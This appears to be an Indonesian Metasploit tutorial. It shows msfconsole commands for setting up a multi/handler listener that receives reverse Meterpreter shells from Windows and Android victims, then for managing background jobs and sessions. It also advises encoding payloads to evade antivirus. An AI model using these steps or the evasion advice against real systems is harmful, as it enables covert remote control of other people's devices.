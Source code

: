 # Membuat Listener

## A. Apa itu Listener

`Listener` adalah komponen di Metasploit yang berfungsi untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target. Di Metasploit terdapat modul listener yaitu:

```
exploit/multi/handler
```

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

### 1. Jalankan Metasploit Framework:

   ```
   msfconsole
   ```

### 2. Pilih Modul multi/handler:

   ```
   use exploit/multi/handler
   ```

### 3. Tentukan Payload yang Sesuai

   Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

   ```
   set PAYLOAD windows/meterpreter/reverse_tcp

   ```

### 4. Atur IP dan Port Listener:

   ```
   set LHOST 192.168.1.100
   set LPORT 4444
   ```

   - **LHOST**: IP Attacker (listener)
   - **LPORT**: Port tempat menerima koneksi

### 5. Jalankan Listener:

  ```
  run
  ```

  Atau bisa juga:

  ```
  exploit
  ```

## C. Contoh Lengkap: Listener untuk Payload Windows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android:

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j -z
```

- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

Melihat job listener aktif:

```
jobs
```

Menghentikan job tertentu:

```
jobs -k <ID>
```

Menghentikan semua job:

```
jobs -K
```


## F. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i <ID>
```

## G. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (`public IP/VPN/local` sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## H. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |
